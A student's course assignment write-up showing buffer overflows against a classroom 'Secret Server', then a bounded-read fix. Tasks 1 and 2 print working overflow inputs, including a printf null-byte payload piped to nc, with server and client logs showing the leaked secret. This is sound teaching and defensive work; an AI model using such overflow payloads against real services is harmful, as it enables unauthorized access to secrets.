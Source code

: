 ### CPSC 526 - Assignment 1
Alex Stevenson - 30073617

### Task 1:
 - The first attempt overflows the buffer, by filling it with 32 characters and then overflowing `aaaaa` into the expected password
 - The second attempt allows us to just enter the password `aaaaa` to get into the system

**Server Log**:
```
[UC alexander.stevenson@csx1 a1] ./server 2112 hello yeet
// Password at this point in time is "hello"
Waiting for a new connection...
Talking to someone.
Someone used an incorrect password.
// Password is now changed to "aaaaa"

Waiting for a new connection...
Talking to someone.
Someone used the correct password.
// Password is submitted as "aaaaa", the secret is leaked
```

**Client Log**:
```
[UC alexander.stevenson@csx2 a1] nc csx1 2112
Secret Server 1.0
12345678901234567890123456789012aaaaa
I am not talking to you, bye!

[UC alexander.stevenson@csx2 a1] nc csx1 2112
Secret Server 1.0
aaaaa
The secret is: yeet
```

<div style="page-break-after: always;"></div>


### Task 2:
 - This works because `strcmp` compares null terminated char buffers (aka strings). By starting the string with `12345\x00` it will treat this as the string `12345`
 - We then overflow the buffer such that the expected password is `12345`
 - It reads the entire thing into the buffer to overflow the expected password, but `strcmp` only compares `12345` with `12345` to leak the password immediately

**Server Log**:
```
[UC alexander.stevenson@csx1 a1] ./server 2112 hello yeet
Waiting for a new connection...
Talking to someone.
Someone used the correct password.
```

**Client Log**:
```
[UC alexander.stevenson@csx2 a1] printf '12345\x006789012345678901234567890112345' | nc csx1 2112
Secret Server 1.0
The secret is: yeet
```

<div style="page-break-after: always;"></div>

### Task 3:
 - To remove the vulnerability, the easiest solution is to simply add a counter that ensures that the length of the string read into the buffer never exceeds the length of the buffer

**Code changes**:
```c
// Added a new len variable to keep track of buffer size
void readLineFromFd( int fd, char * buff, unsigned int len) {
	...
	// Begin a counter that counts up to the length
	unsigned int c = 0;
	while(1) {
		...
	    // leave one extra char for null terminator
	    if (c++ >= len - 2) break;
    }
    ...
}

// Then just make sure to set the length of the buffer correctly when calling the new function
int main( int argc, char ** argv) {
	...
	while(1) {
		...
		readLineFromFd( connSockFd, globals.buffer, 32);
		...
	}
	...
}
```
<div style="page-break-after: always;"></div>


**Example**:
**Server Code**:
```
[UC alexander.stevenson@csx1 a1] ./t3 2121 hello yeet
Waiting for a new connection...
Talking to someone.
Buffer: 1234567890123456789012345678901
Password: hello
Someone used an incorrect password.

Waiting for a new connection...
Talking to someone.
Buffer: 12345
Password: hello
Someone used an incorrect password.

Waiting for a new connection...
Talking to someone.
Buffer: 1234567890987667688924149708418
Password: hello
Someone used an incorrect password.
```

**Client Code**:
```
[UC alexander.stevenson@csx2 a1] nc csx1 2121
Secret Server 1.0
1234567890123456789012345678901212345
I am not talking to you, bye!

[UC alexander.stevenson@csx2 a1] nc csx1 2121
Secret Server 1.0
12345
I am not talking to you, bye!

[UC alexander.stevenson@csx2 a1] nc csx1 2121
Secret Server 1.0
1234567890987667688924149708418734ourihjgft76iy8ui2qghayt76iy8kuihjgfr76tiykh
I am not talking to you, bye!
```
